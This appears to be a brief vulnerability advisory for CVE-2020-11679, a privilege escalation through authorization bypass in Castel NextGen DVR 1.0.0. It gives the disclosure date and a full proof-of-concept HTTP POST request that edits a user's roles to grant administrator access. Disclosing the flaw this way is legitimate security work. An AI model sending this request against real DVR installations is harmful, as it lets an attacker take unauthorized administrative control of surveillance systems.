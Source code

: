 A Privilege Escalation, CVE-2020-11679, was identified on **Castel NextGen DVR** version 1.0.0 due to an Authorization Bypass that allows low privileged users to directly call functionality reserved for an Administrator.

## Timeline

* Issue Disclosed: 3 Jun 2020 - [Blog post](https://www.securitymetrics.com/blog/attackers-known-unknown-authorization-bypass)

## Description

A malicious user can craft a request which calls the functionality to modify the roles associated with their account, the request would be similar to:

~~~
POST /Administration/Users/Edit/:ID HTTP/1.1
Host: $RHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: $REVIEWER_COOKIES
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 349

UserId=:ID&Email=bypass%40test.com&FirstName=bypass&LastName=bypass&LDAPUser=false&Roles%5B0%5D.RoleId=1&Roles%5B0%5D.IsSelected=true&Roles%5B0%5D.IsSelected=false&Roles%5B1%5D.RoleId=3&Roles%5B1%5D.IsSelected=true&Roles%5B1%5D.IsSelected=false&Roles%5B2%5D.RoleId=5&Roles%5B2%5D.IsSelected=true&Roles%5B2%5D.IsSelected=false&Locked=false
~~~
